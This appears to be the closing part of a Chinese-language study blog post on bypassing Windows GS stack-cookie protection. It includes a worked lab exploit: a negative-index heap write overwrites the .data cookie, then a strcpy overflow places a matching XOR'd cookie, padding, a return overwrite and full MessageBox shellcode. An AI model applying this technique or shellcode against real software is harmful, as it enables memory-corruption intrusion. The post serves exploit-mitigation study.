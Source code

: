 `test`函数存在字符串数组溢出，同时`i`缺失单向范围限制（没有限制`i > 0`）。在这种特定环境下，我们可以通过`if`代码段内的四个赋值操作去修改`.data`区cookie，使用`strcpy`去修改栈上的cookie。

通过调试发现：

![Bildschirmfoto 2018-08-09 um 4.58.16 PM.png]({{ site.url }}/images/0day/76A2D40A8B4AB9C29FFDDCBBD57D3A93.png)

malloc返回的堆空间起始地址为`0x00410048`，而`.data`区的cookie位于`0x00403000`：

![Bildschirmfoto 2018-08-09 um 4.28.06 PM.png]({{ site.url }}/images/0day/B21BC429998D1E0E68CF06112488EE07.png)

即malloc返回的地址在cookie之上。同时`test`没有对`i`进行非负数限制，所以我们可以通过向`test`函数传入一个负值使得堆空间`str`的前4个字节被赋值给`.data`区的cookie，从而达到改写cookie的目的。`0x00403000 - 0x00410048 = -53320 = 0xFFFF2FB8`，所以我们给`test`传入这个负数差值。

我们知道，栈上的cookie是从`.data`区取出，然后与当前`ebp`做一次异或，再存入`ebp -4`的地方。我们希望把`.data`区的cookie设置为`0x90909090`，那么在栈上就应该放置`0x90909090 ^ ebp`，通过调试可以发现ebp是`0x0012FF64`。

之后就是老套路了，放入一个弹窗shellcode，把各种填充和偏移都布置好。最终的shellcode构成及攻击示意：

![Bildschirmfoto 2018-08-09 um 5.07.59 PM.png]({{ site.url }}/images/0day/593E440A29292ED45146965A540774C0.png)

图中黑色箭头为栈增长方向。

shellcode如下：

```c
// cookie
"\x90\x90\x90\x90"
// messagebox
"\xfc\x68\x6a\x0a\x38\x1e\x68\x63\x89\xd1\x4f\x68\x32\x74\x91\x0c"
"\x8b\xf4\x8d\x7e\xf4\x33\xdb\xb7\x04\x2b\xe3\x66\xbb\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xd2\x64\x8b\x5a\x30\x8b\x4b\x0c\x8b"
"\x49\x1c\x8b\x09\x8b\x69\x08\xad\x3d\x6a\x0a\x38\x1e\x75\x05\x95"
"\xff\x57\xf8\x95\x60\x8b\x45\x3c\x8b\x4c\x05\x78\x03\xcd\x8b\x59"
"\x20\x03\xdd\x33\xff\x47\x8b\x34\xbb\x03\xf5\x99\x0f\xbe\x06\x3a"
"\xc4\x74\x08\xc1\xca\x07\x03\xd0\x46\xeb\xf1\x3b\x54\x24\x1c\x75"
"\xe4\x8b\x59\x24\x03\xdd\x66\x8b\x3c\x7b\x8b\x59\x1c\x03\xdd\x03"
"\x2c\xbb\x95\x5f\xab\x57\x61\x3d\x6a\x0a\x38\x1e\x75\xa9\x33\xdb"
"\x53\x68\x2d\x6a\x6f\x62\x68\x67\x6f\x6f\x64\x8b\xc4\x53\x50\x50"
"\x53\xff\x57\xfc\x53\xff\x57\xf8"
// nop
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
// 0x90909090 ^ ebp
"\xf4\x6f\x82\x90"
// overwrite ebp
"\x90\x90\x90\x90"
// overwrite ret (ret to shellcode_addr)
"\x94\xfe\x12";
```

测试：

![Bildschirmfoto 2018-08-09 um 4.45.46 PM.png]({{ site.url }}/images/0day/7B365AE3F1361C68A173B604A13DD920.png)

再次说明：这里边用到了太多的绝对地址和数值（如ebp），所以这只是一个PoC，证明这种技术这种思想是可行的。

## 总结

本章介绍了GS的原理以及四种特定情形下突破GS的方式。

GS已经很厉害了，给缓冲区溢出增加了很大的难度。未来可以研究一下Linux下GS的原理和绕过方式。

另外，如果有格式化字符串漏洞的话是不是也可以把cookie给泄露出来？
